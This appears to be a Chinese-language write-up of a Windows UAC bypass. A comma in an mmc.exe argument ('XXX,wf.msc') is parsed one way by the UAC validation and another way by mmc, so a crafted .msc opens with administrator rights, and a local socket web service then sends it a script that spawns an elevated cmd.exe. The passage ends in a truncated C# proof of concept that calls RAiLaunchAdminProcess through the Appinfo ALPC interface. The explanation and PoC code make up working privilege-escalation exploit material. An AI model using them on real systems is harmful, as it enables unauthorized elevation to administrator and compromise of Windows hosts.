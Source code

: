 同时也需要注意关键的第二个参数`"XXX,wf.msc \"\\\\127.0.0.1\\C$\\testmscdir\\test.msc\"";`

如果在命令行中直接执行`mmc XXX,wf.msc "\\127.0.0.1\C$\testmscdir\test.msc\"`会发现其实是执行不了的，会提示`不能打开文件XXX,wf.msc，文件不存在`,这其实是因为在UAC验证过程中用于解析命令行的命令会错误的解析逗号，导致验证mmc后验证到wf.msc进而通过二段验证，不用弹窗提示是否提权，同时在mmc.exe中封装的解析命令行不会错误解析逗号，进而导致mmc实际执行目标是后面的路径。

执行后就绕过了uac用管理员权限打开了test.msc。

test.msc是我们通过mmc.exe创建的一个msc文件，用于web连接，可以看到，单独打开test.msc其实是在mmc中连接到指定web服务（mmc也有不少关于这个的cve，有关xss，xxe）。

我们通过socket创建一个web服务，用于和test.msc文件交互。传送执行命令行cmd.exe的script至管理员权限的test.msc中，就通过test.msc打开了管理员权限的命令行

以下为自己用c#复现的poc:

```
using NtApiDotNet;
using NtApiDotNet.Ndr.Marshal;
using NtApiDotNet.Win32;
using rpc_201ef99a_7fa0_444c_9399_19ba84f12a1a_1_0;
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Net;
using System.Net.Sockets;
using System.Runtime.InteropServices;
using System.ServiceProcess;
using System.Text;
using System.Threading;

namespace bypassUAC_alpc
{
    class Program
    {
        [Flags]
        enum StartFlags
        {
            None = 0,
            RunAsAdmin = 0x1,
            Unknown02 = 0x2,
            Unknown04 = 0x4,
            Wow64Path = 0x8,
            Unknown10 = 0x10,
            Unknown20 = 0x20,
            Unknown40 = 0x40,
            Untrusted = 0x80,
            CentennialElevation = 0x200,
        }

        [DllImport("User32.dll")]
        static extern IntPtr GetDesktopWindow();



        static NtProcess LaunchAdminProcess(string executable, string cmdline, StartFlags flags, CreateProcessFlags create_flags, string desktop)
        {
            StartAppinfoService();

            using (Client client = new Client())
            {
                client.Connect();
                create_flags |= CreateProcessFlags.UnicodeEnvironment;
                Struct_0 start_info = new Struct_0();
                int retval = client.RAiLaunchAdminProcess(executable, cmdline, (int)flags, (int)create_flags,
```